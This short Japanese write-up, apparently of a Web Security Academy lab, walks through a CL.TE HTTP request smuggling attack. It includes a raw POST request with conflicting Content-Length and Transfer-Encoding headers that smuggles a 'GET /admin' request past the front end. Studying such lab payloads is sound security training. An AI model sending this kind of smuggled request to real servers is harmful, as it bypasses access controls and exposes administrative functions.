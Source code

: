 `/admin`に対して許可されていないのを見ておきます。
![](./images/README_231016_120644.png)

では次に脆弱性があるかの確認をしていきます。

Front-endがContent-Lengthをみて、Back-endはTransfer-Encodingをみるので、

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
s: s
```
![](./images/README_231016_121255.png)
